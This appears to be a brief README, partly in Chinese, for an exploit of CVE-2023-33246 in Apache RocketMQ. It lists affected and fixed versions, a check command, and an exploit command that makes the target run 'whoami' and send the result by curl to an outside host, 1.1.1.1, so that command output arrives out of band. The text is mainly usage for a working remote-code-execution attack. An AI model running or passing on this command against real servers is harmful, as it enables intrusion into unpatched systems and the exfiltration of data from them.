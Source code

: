 
## 影响版本
Apache RocketMQ through 5.1.0

## 修复方案
upgrade to version 5.1.1 above for using RocketMQ 5.x    
4.9.6 above for using RocketMQ 4.x

## check
```python
python check.py --ip 127.0.0.1
```

## exp
```python
python CVE-2023-33246_exp.py 127.0.0.1 9876 curl 1.1.1.1:80/`whoami`
```

利用带外显示结果